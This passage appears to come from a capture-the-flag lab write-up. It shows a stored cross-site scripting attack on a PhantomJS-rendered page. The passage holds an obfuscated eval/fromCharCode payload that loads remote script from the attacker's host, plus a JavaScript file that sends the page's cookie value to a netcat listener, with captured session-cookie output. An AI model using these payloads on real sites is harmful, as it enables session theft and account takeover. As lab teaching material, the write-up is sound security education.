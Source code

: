```

<img src="/><script>eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,51,48,47,48,120,100,102,46,106,115,34,62,60,47,115,99,114,105,112,116,62,39,41,59))</script>" />

```

```

root@kali# nc -lnvp 80
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.10.25.
Ncat: Connection from 10.10.10.25:43706.
GET /0xdf.js HTTP/1.1
Accept: */*
Referer: http://localhost:8000/vac/8dd841ff-3f44-4f2b-9324-9a833e2c6b65
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,*
Host: 10.10.14.30

```

Now that it is trying to get javascript from me to run, I will give it some. I’ll make a file that waits for the page to load, and then executes a request to me:

```

root@kali# cat 0xdf.js 
window.addEventListener('DOMContentLoaded', function(e) {
    window.location = "http://10.10.14.30:81/?cookie=" + encodeURI(document.getElementsByName("cookie")[0].value)
})

```

I’ll re-submit the same payload, with `python` acting as a webserver, and `nc` listening on 81. It hits the webserver:

```

root@kali# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.25 - - [04/Sep/2019 18:10:26] "GET /0xdf.js HTTP/1.1" 200 -

```

And then I get the request with the cookie on `nc`:

```

root@kali# nc -lnvp 81
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::81
Ncat: Listening on 0.0.0.0:81
Ncat: Connection from 10.10.10.25.
Ncat: Connection from 10.10.10.25:46152.
GET /?cookie=connect.sid=s%253Ab3c4cce0-cf60-11e9-84a9-cb2ef2ea7a59.ZKayGjSEn27vNWWhzADjAyFYV2tPHlaWeErLRJZQpsM HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Referer: http://localhost:8000/vac/8dd841ff-3f44-4f2b-9324-9a833e2c6b65
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
```